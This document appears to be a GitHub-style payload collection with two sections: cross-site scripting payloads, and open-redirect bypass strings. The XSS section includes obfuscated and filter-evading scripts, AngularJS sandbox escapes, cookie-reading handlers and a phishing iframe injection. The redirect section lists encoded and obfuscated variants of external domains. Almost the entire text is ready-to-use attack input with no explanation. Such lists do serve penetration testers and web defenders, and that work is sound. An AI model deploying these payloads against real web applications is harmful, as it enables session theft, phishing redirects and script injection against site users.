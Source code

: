 # XSS Payload


```
<h1 onclick=\u0041\u006cert("_Y000!_")>Y00</h1>
```
###
```
"><u>XSS Vulnerability</u>
```

<marquee+onstart='alert(document.cookie)'>XSS

<vipin oncopy = prompt(document.domain)>

<a onclick=\u0041\u006cert("_Y000!_")>Y00</a>

<p onclick=\u0041\u006cert("_Y000!_")>Y00</p>

<marquee onclick=\u0041\u006cert("_Y000!_")>Y00</marquee>

onMouseOver=<script>alert("/XSS BY Y000!/")</script>

</script><h1 onmouseover= top[8680439..toString(30)]("_Y000!_")>

</script><h1 onmouseover=top[/al/.source+/ert/.source]("_Y000!_")>

</script><h1 onmouseover=["_Y000!_"].find(alert)>

</script><h1 onmouseover= (((confirm)))`_Y000!_`>

<input onblur=top[/al/.source+/ert/.source]("_Y00!_") autofocus><input autofocus>

<input onblur=["_Y00!_"].find(alert) autofocus><input autofocus>

<input onblur=(((confirm)))("_Y00!_") autofocus><input autofocus>

<p/onclick=%27new%20Function`al\ert\`\u0059\u0030\u0030\u0030\``%27>d

<p/onclick=self[`aler`%2b`t`]`\u0059\u0030\u0030\u0030`>d

"onfocus="alert('Y000')"+autofocus="

</script><!--><svg onload=[document.domain].find%26%2340;alert%26rpar;>

"><svg/onload=alert`${'000'}¥000!.was.here$`>

<svg/onload=eval("ale"+"rt")(`✓${alert`✓`}`)>

<noscript><p title="</noscript><img src=x onerror=alert(1)>">

location="http://google.com"

document.location = "http://google.com"

document.location.href="http://google.com"

window.location.assign("http://google.com")

window['location']['href']="http://google.com"

<object data='data:text/html;;;;;base64,PHNjcmlwdD5hbGVydGBZMDAwYDwvc2NyaXB0Pg=='></object>

<img src="x" onerror="document.write('<iframe src=tu_phishing></iframe>')"/>

<marquee loop=1 width=0 onfinish=\u0070\u0072\u006f\u006d\u0070\u0074(document.cookie)>Y000</marquee>

"><details/open/ontoggle=confirm("/xss_by_Y000!/")>

<script> for(;;) alert("_Y000!_")</script>

<meta%20http-equiv="refresh"%20content="0;">

"  autofocus '-->--!><Input/Autofocus/*/Onfocus=document.location=``;alert`_Y000!_`//>

IMG SRC=x onload="alert(String.fromCharCode(88,83,83))">

<IMG SRC=x onafterprint="alert(String.fromCharCode(88,83,83))">

<script%20~~~>\u0061\u006C\u0065\u0072\u0074``</script%20~~~>

<\x3Cscript>javascript:alert(1)</script>

'`"><\x00script>javascript:alert(1)</script>

<img src=1 href=1 onerror="javascript:alert(1)"></img>

<audio src=1 href=1 onerror="javascript:alert(1)"></audio>

<video src=1 href=1 onerror="javascript:alert(1)"></video> 

<body src=1 href=1 onerror="javascript:alert(1)"></body>

<image src=1 href=1 onerror="javascript:alert(1)"></image>

<object src=1 href=1 onerror="javascript:alert(1)"></object>

<svg onResize svg onResize="javascript:javascript:alert(1)"></svg onResize>

<title onPropertyChange title onPropertyChange="javascript:javascript:alert(1)"></title onPropertyChange> <iframe onLoad iframe onLoad="javascript:javascript:alert(1)"></iframe onLoad> 

<body onMouseEnter body onMouseEnter="javascript:javascript:alert(1)"></body onMouseEnter> 

<body onFocus body onFocus="javascript:javascript:alert(1)"></body onFocus>

<frameset onScroll frameset onScroll="javascript:javascript:alert(1)"></frameset onScroll> 

<script onReadyStateChange script onReadyStateChange="javascript:javascript:alert(1)"></script onReadyStateChange>

<html onMouseUp html onMouseUp="javascript:javascript:alert(1)"></html onMouseUp>

<body onPropertyChange body onPropertyChange="javascript:javascript:alert(1)">

</body onPropertyChange> <svg onLoad svg onLoad="javascript:javascript:alert(1)">

</svg onLoad> <body onPageHide body onPageHide="javascript:javascript:alert(1)"></body onPageHide> 

<body onMouseOver body onMouseOver="javascript:javascript:alert(1)"></body onMouseOver> 

<body onUnload body onUnload="javascript:javascript:alert(1)">

<div style=”z:exp/*anything*/res/*here*/sion(alert(1))” />

<iframe src=j&NewLine;&Tab;a&NewLine;&Tab;&Tab;v&NewLine;&Tab;&Tab;&Tab;a&NewLine;&Tab;&Tab;&Tab;&Tab;s&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;c&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;r&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;i&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;p&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;t&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&colon;a&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;l&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;e&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;r&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;t&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;28&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;1&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;%29></iframe>

<IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>

&lt;BODY ONLOAD=alert('XSS')&gt;

<video src=1 onerror=alert(1)>

<audio src=1 onerror=alert(1)>

<script>(+[])[([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+([][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[[+!+[]]+[!+[]+!+[]+!+[]+!+[]]]+[+[]]+([][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[[+!+[]]+[!+[]+!+[]+!+[]+!+[]+!+[]]])()</script>

<script>$=~[];$={___:++$,$$$$:(![]+””)[$],__$:++$,$_$_:(![]+””)[$],_$_:++$,$_$$:({}+””)[$],$$_$:($[$]+””)[$],_$$:++$,$$$_:(!””+””)[$],$__:++$,$_$:++$,$$__:({}+””)[$],$$_:++$,$$$:++$,$___:++$,$__$:++$};$.$_=($.$_=$+””)[$.$_$]+($._$=$.$_[$.__$])+($.$$=($.$+””)[$.__$])+((!$)+””)[$._$$]+($.__=$.$_[$.$$_])+($.$=(!””+””)[$.__$])+($._=(!””+””)[$._$_])+$.$_[$.$_$]+$.__+$._$+$.$;$.$$=$.$+(!””+””)[$._$$]+$.__+$._+$.$+$.$$;$.$=($.___)[$.$_][$.$_];$.$($.$($.$$+”\””+$.$_$_+(![]+””)[$._$_]+$.$$$_+”\\”+$.__$+$.$$_+$._$_+$.__+”(“+$.___+”)”+”\””)())();</script>

%u3008img%20src%3D%221%22%20onerror%3D%22alert(%uFF071%uFF07)%22%u232A

< = %C0%BC = %E0%80%BC = %F0%80%80%BC

<div style=”x:expression(alert(1))”>Joker</div>

\<iMg srC=1 lAnGuAGE=VbS oNeRroR=mSgbOx(1)>

{{a='constructor';b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,'alert(151)')()}}

{{{}.")));alert(152)//"}}

{{(_=''.sub).call.call({}[$='constructor'].getOwnPropertyDescriptor(_.__proto__,$).value,0,'alert(153)')()}}

{{toString.constructor.prototype.toString=toString.constructor.prototype.call;["a","alert(154)"].sort(toString.constructor);}}

{{{}.")));alert(155)//"}}

{{{}.")));alert(156)//"}}

{{{}[{toString:[].join,length:1,0:'__proto__'}].assign=[].join;'a'.constructor.prototype.charAt=[].join;$eval('x=alert(157)//');}}

{{'a'[{toString:false,valueOf:[].join,length:1,0:'__proto__'}].charAt=[].join;$eval('x=alert(158)//');}}

{{'a'.constructor.prototype.charAt=[].join;$eval('x=alert(159)');}}

{{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(160)//');}}

{{x={'y':''.constructor.prototype};x['y'].charAt=[].join;$eval('x=alert(161)');}}

{{constructor.constructor('alert(162)')()}}

{{$on.constructor('alert(163)')()}}

&lt;IMG SRC=`javascript:alert(1841)`&gt;

'></select><script>alert(1770)</script>

```
# OPEN REDIRECTION


```

/%09/google.com

172.217.167.46

////216.58.214.206

///216.58.214.206

//216.58.214.206

/\216.58.214.206

/216.58.214.206

216.58.214.206

%2f%2fgoogle.com

/%5cgoogle.com

//evil%00.com

evil%E3%80%82com

//google%00.com

/.google.com

////google.com

///\;@google.com

//\google.com

//google.com

//google.com/

//google。com

/\/\google.com

/\/google.com

/\/google.com/

@google.com/

\/\/google.com/

google.com
////google.com/%2e%2e

///google.com/%2e%2e

//google.com/%2e%2e

/google.com/%2e%2e

//google.com/%2E%2E

////google.com/%2e%2e%2f

///google.com/%2e%2e%2f

//google.com/%2e%2e%2f

////google.com/%2f..

///google.com/%2f..

//google.com/%2f..

//google.com/%2F..

/google.com/%2F..

////google.com/%2f%2e%2e

///google.com/%2f%2e%2e

//google.com/%2f%2e%2e

/google.com/%2f%2e%2e

//google.com//%2F%2E%2E

//google%E3%80%82com

hthttp://tp://google.com

http://00330.00072.0000326.00000316

http:00330.00072.0000326.00000316

http://00330.0x3a.54990

http:00330.0x3a.54990

http://00330.3856078

http:00330.3856078

http://0330.072.0326.0316

http:0330.072.0326.0316

http:%0a%0dgoogle.com

http:%0a%0dⓁ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ

http://0xd8.072.54990

http:0xd8.072.54990

http://0xd8.0x3a.0xd6.0xce


http:0xd8.0x3a.0xd6.0xce

http://0xd8.3856078

http:0xd8.3856078

http://0xd83ad6ce

http:0xd83ad6ce

http://[::216.58.214.206]

http:[::216.58.214.206]


http%3A%2F%2Fwww.google.com

http://a.com／X.b.com

http://[::ffff:216.58.214.206]

http:[::ffff:216.58.214.206]

/http://google.com

/http:/google.com

http://.google.com

http://;@google.com

http://google.com

http:/\/\google.com

http:/google.com

hTTp://google.com

HtTP://google.com

HTTP://google.com

https%3A%2F%2Fwww.google.com

https://evil.c℀.example.com 

https:google.com

HtTPs://google.com

https://gov.ai;@google.com

https:www.google.com

http://www.google.com

http\x3A\x2F\x2Fgoogle.com

?next=gov.ai&next=google.com  

/?redir=google。com

//www.google.com

//www.google.com/%2e%2e

//www.google.com/%2f%2e%2e

www.gov.ai.google.com

x00http://google.com

\x20http://google.com

```

